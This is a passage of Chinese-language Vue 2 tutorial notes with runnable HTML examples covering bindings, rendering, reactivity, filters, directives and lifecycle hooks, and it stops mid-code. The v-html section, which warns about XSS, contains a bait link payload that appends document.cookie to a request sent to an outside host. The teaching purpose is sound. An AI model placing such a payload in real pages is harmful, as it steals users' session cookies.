watch能完成的功能，computed不一定能完成，例如:watch可以进行异步操作，两个重要的小原则:
所被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例对象。

所有不被Vue所管理的函数(定时器的回调函数、ajax的回调函数等)，最好写成箭头函数,这样this的指向才是vm 或组件实例对象。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>watch与computed比较</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        姓：<input type="text" v-model="firstName"><br/><br/>
        名：<input type="text" v-model="lastName"><br/><br/>
        姓名：<span>{{fullName}}</span><br/><br/>


    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。


    const vm = new Vue({
        el: '#root',
        data: {
            firstName:'张',
            lastName:'三',
            fullName:'张-三'
        },

        computed:{
            // fullName(){
            //     console.log('get被调用了')
            //
            //     setTimeout(()=>{
            //         console.log(this)
            //         return this.firstName+'-'+this.lastName
            //     })
            //
            //     return 1000;
            //
            //
            // }
        },
        watch:{
            firstName(val){

                setTimeout(()=>{
                    console.log(this) // vue
                    this.fullName =  val+'-'+this.lastName
                },1000)


            },
            lastName(val){
                this.fullName =  this.firstName +'-'+ val
            }
        }
    });


</script>
</html>
```

### 绑定class样式

class样式

- 写法:class="xxx"  xxx可以是字符串、对象、数组。
- 字符中写法适用于:类名不确定，要动态获取。
- 对象写法适用于:要绑定多个样式，个数不确定，名字也不确定。
- 数组写法适用于:要绑定多个样式，个数确定，名字也确定，但不确定用不用。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>绑定class样式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <style type="text/css">
        .basic{
            width: 200px;
            height: 100px;
            border: 1px solid black;
        }

        .nomal{
            background-color: azure;
        }

        .class1{
            background-color: aquamarine;
        }

        .class2{
            background-color: bisque;
        }

        .class3{
            background-color: #ff7fea;
        }


    </style>

    <div id="root">
        <div>{{name}}</div><br/><br/>
        <!--绑定class样式，字符串写法，适用于：样式名不确定，需要动态指定-->
        <div class="basic" :class="mood">{{name}}</div><br/><br/>

        <!--数组写法，绑定样式不确定，名称也不确定-->
        <div class="basic" :class="classArr">{{name}}</div><br/><br/>

        <!--对象写法，绑定样式个数确定，名称不确定-->
        <div class="basic" :class="classObj" >{{name}}</div><br/><br/>
    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name:"好好学习，天天向上",
            mood:"nomal",
            classArr:['class1','class2','class3'],
            classObj:{
                class1:true,
                class2:true
            }
        }
    });


</script>
</html>
```

### 绑定style样式

style样式

- :style="{fontsize:xxx}"其中xxx是动态值。
- :style="[a,b]"其中a、b是样式对象。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>绑定style样式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>


    <div id="root">
        <div>{{name}}</div><br/><br/>
        <div class="basic" :style="styleObj">{{name}}</div><br/><br/>

        <div class="basic" :style="styleArr">{{name}}</div><br/><br/>

    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name:"好好学习，天天向上",
            mood:"nomal",
            styleObj:{
                fontSize:'40px',
                color:'red'
            },
            styleArr:[
                {fontSize:'40px'},
                { color:'red'}
            ]
        }
    });


</script>
</html>
```

### 条件渲染

v-if
写法:

- v-if="表达式"

- v-else-if="表达式”

- v-else="表达式"

  用于:切换频率较低的场景。
  特点:不展示的DOM元素直接被移除。
  注意:v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。
  
  v-show
  写法:

  v-show="表达式”
  适用于:切换频率较高的场景。
  特点:不展示的DOM元素未被移除，仅仅是使用样式隐藏掉

  备注:使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>条件渲染</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>


    <div id="root">

        <!--v-show-->
        <div v-show="isShow">{{name}}</div><br/><br/>

        <div v-if="n===1">Java</div>
        <div v-else-if="n===2">Mysql</div>
        <div v-else="n===3">Vue</div>

        <!--template不影响结构-->
        <template v-show="n === 1">
            <h2>111</h2>
            <h2>222</h2>
            <h2>333</h2>
        </template>
    </div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name:"好好学习，天天向上",
            isShow:true,
            n:1,
        }
    });


</script>
</html>
```

### 列表渲染

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表渲染</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>列表人员</h2>
        <ul>
            <!--v-for in 遍历数组-->
            <li v-for="(item, index) in personArr" :key="item.id">
               {{index}}-- {{ item.name }} -- {{ item.age }}
            </li>

        </ul>
        <hr>

        <ul>
            <!--v-for of遍历数组-->
            <li v-for="(item, index) of personArr" :key="item.id">
                {{index}}-- {{ item.name }} -- {{ item.age }}
            </li>
        </ul>

        <hr>

        <ul>
            <!--遍历对象-->
            <li v-for="(value, name,index) in person"  :key="index">
                {{index}}-- {{ name}} -- {{ value }}
            </li>
        </ul>


        <hr>

        <ul>
            <!--遍历字符串-->
            <li v-for="(value,index) in str"  :key="index">
                {{ index}} -- {{ value }}
            </li>
        </ul>
        <hr>
        <ul>
            <!--遍历指定次数-->
            <li v-for="item in 10">
                {{ item}}
            </li>
        </ul>


    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name: "好好学习，天天向上",
            personArr: [
                {id: 1, name: '张三', age: 48},
                {id: 2, name: '李四', age: 18},
                {id: 3, name: '王五', age: 28},
            ],
            person: {
                id: 1,
                name: '张三',
                age: 48
            },
            str:'hello'
        }
    });


</script>
</html>
```

### 列表渲染key原理

面试题:react、vue中的key有什么作用?(key的内部原理)
**虚拟DOM中key的作用:**
key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】，随后vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下:
**对比规则:**
旧虚拟DOM中找到了与新虚拟DOM相同的key:

- 若虚拟DOM中内容没变，直按使用之前的真实DOM
- 若虚拟DOM中内容变了，则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
- 旧虚拟DOM中未找到与新虚拟D0M相同的key创建新的真实DOM，随后渲染到到页面。

**用index作为key可能会引发的问题:**

若对数据进行:逆序添加、逆序删除等破坏顺序操作:
	会产生没有必要的真实DOM更新==>界面效果没问题，但效率低。

如果结构中还包含输入类的DOM:

​	会产生错误DOM更新 ==>界面有问题。

**开发中如何选择key;**
最好使用每条数据的唯一标识作为key，比如id、手机号、身份证号、学号等唯一值。

如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示,使用index作为key是没有问题的。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表key原理</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>列表人员</h2>

        <button @click="add">添加一行</button>
        <ul>
            <!--v-for in 遍历数组-->
            <li v-for="(item, index) in personArr" :key="item.id">
               {{index}}-- {{ item.name }} -- {{ item.age }}
                <input type="text">
            </li>

        </ul>
    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            personArr: [
                {id: 1, name: '张三', age: 48},
                {id: 2, name: '李四', age: 18},
                {id: 3, name: '王五', age: 28},
            ]

        }
        , methods:{
            add(){
                let p = {id: 4, name: '老六', age: 16}
                this.personArr.unshift(p)
            }
        }

    });


</script>
</html>
```


问题：向数组添加一行， ：key是index存在问题。：key应该是唯一属性


### 列表过滤

**使用computed**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表过滤</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>列表人员</h2>
        <input type="text" placeholder="请输入姓名" v-model="keyWold">
        <ul>
            <li v-for="(item, index) in filPersonArr" :key="item.id">
               {{index}}-- {{ item.name }} -- {{ item.age }}--{{ item.sex }}
            </li>

        </ul>


    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    /*computed 实现*/
    const vm = new Vue({
        el: '#root',
        data: {
            keyWold:'',
            personArr: [
                {id: 1, name: '张三', age: 48,sex:'男'},
                {id: 2, name: '李四', age: 18,sex:'女'},
                {id: 3, name: '王五', age: 28,sex:'男'},
            ],

        },
        computed: {
            filPersonArr(){
                   return  this.personArr.filter((p)=>{
                        return p.name.indexOf(this.keyWold) != -1

                    })

            }
        }

    });


</script>
</html>
```

**使用watch**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表过滤</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>列表人员</h2>
        <input type="text" placeholder="请输入姓名" v-model="keyWold">
        <ul>
            <li v-for="(item, index) in filPersonArr" :key="item.id">
               {{index}}-- {{ item.name }} -- {{ item.age }}--{{ item.sex }}
            </li>

        </ul>


    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    /*watch实现*/
    const vm = new Vue({
        el: '#root',
        data: {
            keyWold:'',
            filPersonArr:[],
            personArr: [
                {id: 1, name: '张三', age: 48,sex:'男'},
                {id: 2, name: '李四', age: 18,sex:'女'},
                {id: 3, name: '王五', age: 28,sex:'男'},
            ],

        },
        watch: {
            keyWold:{
                immediate:true,
                 handler(val){
                    this.filPersonArr = this.personArr.filter((p)=>{
                        return p.name.indexOf(val) != -1

                    })
                }

            }
        }

    });


</script>
</html>
```

### 列表排序


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表排序</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>列表人员</h2>
        <input type="text" placeholder="请输入姓名" v-model="keyWold">
        <button @click="sortType = 2">年龄升序</button>
        <button @click="sortType = 1">年龄降序</button>
        <button @click="sortType = 0">原顺序</button>


        <ul>
            <li v-for="(item, index) in filPersonArr" :key="item.id">
               {{index}}-- {{ item.name }} -- {{ item.age }}--{{ item.sex }}
            </li>

        </ul>


    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    /*watch实现*/
    const vm = new Vue({
        el: '#root',
        data: {
            keyWold:'',
            sortType:0, // 0原顺序1降序2升序
            personArr: [
                {id: 1, name: '张三', age: 48,sex:'男'},
                {id: 2, name: '李四', age: 18,sex:'女'},
                {id: 3, name: '王五', age: 28,sex:'男'},
                {id: 4, name: '老刘', age: 8,sex:'女'},
                {id: 5, name: '刘大大', age: 58,sex:'女'},
            ],

        },
        computed: {
            filPersonArr(){
                const  arr =  this.personArr.filter((p)=>{
                    return p.name.indexOf(this.keyWold) != -1

                })

                if(this.sortType){

                    arr.sort((p1,p2)=>{
                        return this.sortType === 1 ?  (p2.age - p1.age) : (p1.age - p2.age)
                    })

                }

                return arr;


            }
        }

    });


</script>
</html>
```

### 更新的一个问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>更新的一个问题</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>

    <div id="root">
        <h2>列表人员</h2>
        <button @click="updatePersonArr">更新张三信息</button>


        <ul>
            <li v-for="(item, index) in personArr" :key="item.id">
               {{index}}-- {{ item.name }} -- {{ item.age }}--{{ item.sex }}
            </li>

        </ul>


    </div>

</body>
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    /*watch实现*/
    const vm = new Vue({
        el: '#root',
        data: {
            keyWold:'',
            sortType:0, // 0原顺序1降序2升序
            personArr: [
                {id: 1, name: '张三', age: 48,sex:'男'},
                {id: 2, name: '李四', age: 18,sex:'女'},
                {id: 3, name: '王五', age: 28,sex:'男'},
                {id: 4, name: '老刘', age: 8,sex:'女'},
                {id: 5, name: '刘大大', age: 58,sex:'女'},
            ],

        },
        methods: {
            updatePersonArr(){
                // 有效果
                // this.personArr[0].name='张大大';
                this.personArr.splice(0,1,{id: 1, name: '张大大', age: 48,sex:'男'})
                // this.personArr[0] = {id: 1, name: '张大大', age: 48,sex:'男'};  // 没有效果
            }
        }

    });


</script>
</html>
```

### Vue监测数据原理-对象

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>模拟一个监测数据原理</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
    </div>
</body>
<script type="text/javascript">
    let data = {
        name:'湖南大学',
        address:'湖南'
    }
    // 创建一个监测的实例对象，用于监测data中属性的变化
    const  obs = new Oberver(data);
    console.log(obs)

   // 准备一个vm实例对象
    let vm = {}

    vm._data =data = obs


    function Oberver(obj){
        // 汇总对象所有属性形成一个数组
      const keys = Object.keys(obj)


        keys.forEach((k)=>{
           Object.defineProperty(this,k,{
               get(){
                   return obj[k]
               },
               set(value){
                   console.log(`${k}被调用需要解析模拟`)
                   obj[k]= value
               },
           })
        })

    }


</script>
</html>
```

### Vue.set方法


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue中set方法的使用</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
      <h2>姓名：{{student.name}}</h2>
        <button @click="addSex">添加一个性别</button>
        <h2 v-if="student.sex">性别：{{student.sex}}</h2>
        <h2>年龄  真实：{{student.age.rage}}   对外{{student.age.sage}}</h2>
        <h2>描述：{{student.description}}</h2>
    </div>
</body>
<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {
            student:{
                name:'张三',
                age:{
                    rage:10,
                    sage:89
                }
            },

        },
        methods: {
            addSex(){
                this.$set(this.student,'sex','男')
            }
        }

    });


</script>
</html>
```

### Vue数组监测数据原理

[数组更新检测说明](https://v2.cn.vuejs.org/v2/guide/list.html#数组更新检测)


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue数组监测原理</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
        <li v-for="item in hobby">
             {{item}}
        </li>
    </div>
</body>
<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {
            student:{
                name:'张三',
                age:{
                    rage:10,
                    sage:89
                }
            },
            hobby:[
                'Java',
                'Vue',
                'Mysql',
            ]

        },
        methods: {

        }

    });


</script>
</html>
```

### 总结Vue检查数据

vue会监视data中所有层次的数据。
如何监测对象中的数据?
通过setter实现监视，且要在new Vue时就传入要监测的数据，
   对象中后追加的属性，Vue默认不做响应式处理
   **如需给后添加的属性做响应式，请使用如下API:**

- ​        Vue.set(target,propertyName/index，value)
- ​	    vm.$set(target,propertyName/index,value)

如何监测数组中的数据?
通过包裹数组更新元素的方法实现，本质就是做了两件事:
    调用原生对应的方法对数组进行更新。
    重新解析模板，进而更新页面。

**在Vue修改数组中的某个元素一定要用如下方法:**

- ​         使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
- ​	    Vue.set()或vm.$set()

特别注意:Vue.set()和 vm.$set()不能给vm 或 vm的根数据对象 添加属性!!!

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>总结Vue检查数据</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
        <h1>学生信息</h1>

        <button @click="student.age++">年龄加+1</button><br/><br/>
        <button  @click="addSex">添加属性，默认值：男</button><br/><br/>
        <button  @click="student.sex='未止'">修改性别</button><br/><br/>
        <button @click="addFriend">在类别首位添加一个朋友</button><br/><br/>
        <button @click="updateFirstFriend">修改第一朋友名字为：张三</button><br/><br/>
        <button @click="addHobby">添加一个爱好</button><br/><br/>
        <button @click="updateFirstHobby">修改第一个爱好为：开车</button><br/><br/>
        <button @click="filterFishHobby">过滤爱好中的：钓鱼</button><br/>


        <h3>姓名：{{student.name}}</h3>
        <h3>年龄：{{student.age}}</h3>

        <h3 v-if="student.sex">年龄：{{student.sex}}</h3>
        <h3>爱好：</h3>
        <ul>
            <li v-for="(item,index) in student.hobby" :key="index">
                {{item}}
            </li>

        </ul>
        <hr>

        <ul>
            <li v-for="(obj,index) in student.friend" :key="index">
                {{index}}-- {{obj.name}}--{{obj.age}}
            </li>

        </ul>

    </div>
</body>
<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {
            student:{
                name:'Tom',
                age:18,
                hobby:['打篮球','玩游戏','钓鱼'],
                friend:[
                    {name:"jerry",age:45},
                    {name:"tony",age:36},
                ]
            },


        },
        methods: {
            addSex(){
                Vue.set(this.student,'sex','男')
            },
            addFriend(){
                this.student.friend.unshift({name:'jack',age:78})
            },
            updateFirstFriend(){
                this.student.friend.splice(0,1,{name:'张三',age:78})
            },
            addHobby(){
                this.student.hobby.push('学习')
            },
            updateFirstHobby(){
                // this.student.hobby.splice(0,1,'开车')
                // Vue.set(this.student.hobby,0,'开车')
                this.$set(this.student.hobby,0,'开车')
            },
            filterFishHobby(){
                this.student.hobby = this.student.hobby.filter((item=>{
                    return item != '钓鱼'
                }))
            }

        }

    });


</script>
</html>
```


### 收集表单数据

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>收集表单数据</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
        <form @submit.prevent="submitBtn">
            账号：<input type="text" v-model.lazy="student.account"><br/><br/>
            密码：<input type="password" v-model="student.password"><br/><br/>
            年龄：<input type="number" v-model.number="student.age"><br/><br/>
            性别：
            男 <input type="radio" name="sex" v-model="student.sex" value="male">
            女 <input type="radio" name="sex" v-model="student.sex" value="famale"><br/><br/>
            爱好：
            学习<input type="checkbox" v-model="student.hobby" value="study">
            打游戏<input type="checkbox" v-model="student.hobby" value="game">
            钓鱼<input type="checkbox" v-model="student.hobby" value="fish"><br/><br/>
            所属校区
            <select v-model="student.city">
                <option value="">请选择校区</option>
                <option value="beijing">北京</option>
                <option value="shanghai">上海</option>
                <option value="guangzhou">广州</option>
                <option value="shenzhen">深圳</option>
            </select><br/><br/>

            其它信息
            <textarea v-model="student.other"> </textarea><br/><br/>
            <input type="checkbox" v-model="student.agree"> 阅读并接受<a href="http://www.zhuzq.com">《用户协议》</a><br/><br/>
            <button>  提交 </button>


        </form>

    </div>
</body>
<script type="text/javascript">
    const vm = new Vue({
        el: '#root',
        data: {

            student:{
                account:'',
                password:'',
                age:'',
                sex:'',
                hobby:[],
                city:'',
                other:'',
                agree:''
            }


        },
        methods: {
            submitBtn(){
                console.log(this.student)
            }

        }

    });


</script>
</html>
```


收集表单数据:
若:<input type="text"/> 则v-model收集的是value值，用户输入的就是value值
若:<input type="radio"/>  则v-model收集的是value值，且要给标签配置value值
若:<input type="checkbox'/>
    没有配置input的value属性，那么收集的就是checked(勾选 or 未勾选，是布尔值)
    **配置input的value属性:**

- ​    v-model的初始值是非数组，那么收集的就是checked(勾选 or 末勾选，是布尔值)
- ​    v-model的初始值是数组，那么收集的的就是value组成的数组

**备注:v-model的三个修饰符:**

- ​      lazy:失去焦点再收集数据
- ​      number:输入字符串转为有效的数字
- ​      trim:输入首尾空格过滤

### 过滤器

过滤器:
定义:对要显示的数据进行特定格式化后再显示。适用于一些简单逻辑的处理)
语法:

-  注册过滤器:Vue.filter(name,callback)或 new Vue{filters:{}}
-  使用过滤器:{{ xxx | 过滤器名}} 或 v-bind:属性 ="xxx | 过滤器名"

 备注:

-  过滤器也可以接收额外参数、多个过滤器也可以串联
-  并没有改变原本的数据，是产生新的对应的数据

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>过滤器</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <!--时间处理-->
    <script type="text/javascript" src="../js/dayjs.min.js"></script>

</head>

<body>
    <div id="root">
        <h2>显示格式化后的时间</h2>
        <h2>{{ftmTime}}</h2>
        <h2>{{getFormartTime() }}</h2>

        <!--过滤器使用-->
        <h2>{{time | timeFilter}}</h2>

        <!--过滤器传参-->
        <h2>{{time | timeFilter('YYYY-MM-DD HH:mm:ss') | mySlice }}</h2>


        <h2 :x="msg | mySlice" >你好啊！帅气的男孩</h2>
        <input type="text" v-model="msg">

    </div>
</body>
<script type="text/javascript">


    //全局过滤器
    Vue.filter('mySlice', function (value) {
        return value.slice(0, 4)

    });


    const vm = new Vue({
        el: '#root',
        data: {
           time:1722848396374,
            msg:'你好啊！帅气的男孩'

        },
        computed: {
            ftmTime(){
                // return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss');
                // 获取当前时间
                return dayjs().format('YYYY-MM-DD HH:mm:ss');
            }

        },
        methods:{
            getFormartTime(){
                return dayjs().format('YYYY-MM-DD HH:mm:ss');
            }
        },
        filters:{ // 局部过滤器
            timeFilter(value,format='YYYY-MM-DD'){
                return dayjs(value).format(format);
            },
            // myslice(value){
            //     return value.slice(0,4);
            //
            // }
        }


    });


</script>
</html>
```


### v-text指令

- v-bind ::单向绑定解析表达式，可简写为:xxx
- v-model:双向数据绑定
- v-for:遍历数组/对象/字符中
- v-on: 绑定事件监听，可简写为@
- v-if:条件消染(动态控制节点是否存存在)
- v-else条件渲染(动态控制节点是否存存在)
- v-show :条件消染(动态控制节点是否展示)

v-text指令:

- 作用:向其所在的节点中渲染文本内容。
- 与插值语法的区别:v-text会替换掉节点中的内容，{{xx}}则不会

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-text指令</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
        <div>你好！ {{name}}</div>
        <div v-text="name">你好！</div>
        <div v-text="str">你好！</div>
    </div>
</body>
<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            name:'张三',
            str:`<div>asa</div>`
        },
    });


</script>
</html>
```


### v-html指令

**v-htm1指令:**
作用:向指定节点中渲染包含html结构的内容。
**与插值语法的区别:**
   v-htm1会替换掉节点中所有的内容，{{xx}}则不会。
   v-htm1可以识别html结构。
**严重注意:v-html有安全性问题!!!!**
在网站上动态渲染任意HTML是非常危险的，容易导致XSS改击。
一定要在可信的内容上使用v-htm1，永不要用在用户提交的内容上!

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-html指令</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <div id="root">
        <div>你好！ {{name}}</div>
        <div v-html="name">你好！</div>
        <div v-html="str">你好！</div>
        <div v-html="str2"></div>
    </div>
</body>
<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            name:'张三',
            str:`<div>asa</div>`,
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
        },
    });


</script>
</html>
```


### v-cloak指令

**v-cloak指令(没有值):**
本质是一个特殊属性，Vue实例创建完毕并接管容器后，会掉v-cloak属性。
使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-cloak指令</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<style>
    [v-cloak]{
        display: none;
    }

</style>

<body>
    <div id="root">
        <div v-cloak>你好！ {{name}}</div>
    </div>
</body>

<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            name:'张三',
        },
    });


</script>
</html>
```

### v-once指令

v-once指令:
v-once所在节点在初次动态渲染后，就视为静态内容了。
以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-once指令</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <div v-once >初始化n的值 ： {{n}}</div><br/>
        <div >当前n的值 ： {{n}}</div><br/>
        <button @click="n++">点我n加1</button>
    </div>
</body>

<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            n:1,
        },
    });


</script>
</html>
```

### v-pre指令

v-pre指令:
跳过其所在节点的编译过程。
可利用它跳过:没有使用指令语法、没有使用插值语法的节点，会加快编译

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>v-pre指令</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <div v-pre >初始化n的值 ： {{n}}</div><br/>
        <div >当前n的值 ： {{n}}</div><br/>
        <button @click="n++">点我n加1</button>
    </div>
</body>

<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            n:1,
        },
    });


</script>
</html>
```

### 自定义函数式


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>自定义函数式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <div >初始化n的值 ： <span v-text="n"></span></div><br/>
        <div >放大10倍后的n值是 ： <span v-big="n"></span></div><br/>
        <button @click="n++">点我n加1</button>
    </div>
</body>

<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            n:1,
        },
        directives:{
            /*
            big函数何时会被调用?
             1.指令与元素成功绑时(一上来)。
             2.指令所用到的数据发生更新时
                */
            big(element,binding){
               console.log(element,binding);
                element.innerText = binding.value * 10
            }
        }
    });


</script>
</html>
```

### 自定义对象式


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>自定义对象式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <div >初始化n的值 ： <span v-text="n"></span></div><br/>
        <div >放大10倍后的n值是 ： <span v-big="n"></span></div><br/>
        <button @click="n++">点我n加1</button><br/><br/>


       <input type="text" v-fbind="n"><br/>
        <input type="text" v-fbind:value="n">
    </div>
</body>

<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            n:1,
        },
        directives: {
            /*
            big函数何时会被调用?
             1.指令与元素成功绑时(一上来)。
             2.指令所用到的数据发生更新时
                */
            big(element, binding) {
                console.log(element, binding);
                element.innerText = binding.value * 10
            },
            fbind: {
                //指令与元素成功绑定时(一上来)
                bind(element, binding) {
                    console.log('element',element)
                    console.log('binding',binding)
                    element.value = binding.value
                },
                //指令所在元素被插入页面时
                inserted(element, binding) {
                    element.focus()
                },
                //指令所在的模板被重新解析时
                update(element, binding) {
                    element.value = binding.value

                }

            }
        }
    });


</script>
</html>
```

**小结**

需求1:定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
需求2:定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
自定义指令总结:
定义语法:
(1).局部指令:new Vue({directives;{指令名:配置对象 new Vue({directives{指令名:回调函数}})
(2).全局指令:Vue.directive(指令名,配置对象)或Vue.directive(指令名,回调所数)

配置对象中常用的3个回调:
(1)bind:指令与元素成功绑定时调用。
(2)inserted:指令所在元素被插入页面时调用。
(3)update:指令所在模板结构被重新解析时调用,
备注:
指令定义时不加v-，但使用时要加v-;
指令名如果是多个单词，要使用kebab-case命名方式，不要用camelcase命名。

### 引出声明周期

生命周期:

- 又名:生命周期回调函数、生命周期函数、生命周期钩子。
- 是什么:Vue在关键时刻帮我们调用的一些特殊名称的函数。
- 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的
- 生命周期函数中的this指向是vm 或 组件实例对象。


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>引出生命周期</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <h2 :style="{opacity:opacity}"> 欢迎学习Vue</h2>

    </div>
</body>

<script type="text/javascript">


    const vm = new Vue({
        el: '#root',
        data: {
            opacity:1
        },
        methods:{

        },
        //Vue完成模板的解析并把初始的真实DOM元素放入页面后(挂载完毕)调用mounted
        mounted(){
            console.log('mounted');
            setInterval(()=>{
                this.opacity -= 0.01
                if(this.opacity <= 0){
                    this.opacity = 1
                }
            },16)

        }
    });


</script>
</html>
```

### 生命周期流程


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>生命周期流程</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>


<body>
    <div id="root">
        <div >n的值 ： {{n}}</div><br/>
        <button @click="n++">点我n加1</button><br/><br/>
        <button @click="bye">点我销毁vm</button><br/><br/>
    </div>
</body>

<script type="text/javascript">
 Vue.config.productionTip = false


    const vm = new Vue({
        el: '#root',
        data: {
           n:1
        },
        methods:{
            add(){
                return this.n++
            },
            bye(){
                this.$destroy()
            }
        },
        /**
         * 此时:无法通过vm访问到data中的数据、methods中的方法
         */
        beforeCreate(){
            console.log('beforeCreate','------>n='+this.n )
           // console.log('beforeCreate','------>n='+this.n +" add()方法="+this.add())
        },

        /**
         * 此时，可以通过vm访问到data中的数据、methods中的配置方法
         */
        created(){
            console.log('create','------>n='+this.n +" add()方法="+this.add())
        },
        /**
         * 此时:
         * 1、页面呈现的是未经Vue编译的DOM结构。
         * 2、所有对DOM的操作，最终都不凑效
         */
        beforeMount(){
